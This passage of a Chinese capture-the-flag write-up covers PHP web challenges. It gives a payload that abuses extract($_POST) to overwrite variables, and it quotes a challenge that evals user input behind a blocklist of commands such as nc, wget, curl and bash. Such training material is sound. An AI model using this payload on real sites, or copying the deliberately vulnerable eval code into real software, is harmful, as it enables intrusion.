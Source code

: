 ![image-20250124144438661](assets/image-20250124144438661.png)

看到extract想起变量覆盖

```
extract($_POST);
//提取$_POST数组
```

payload:

```
?_POST[key1]=36d&_POST[key2]=36d
```



#### web135

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 18:48:03

*/

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```
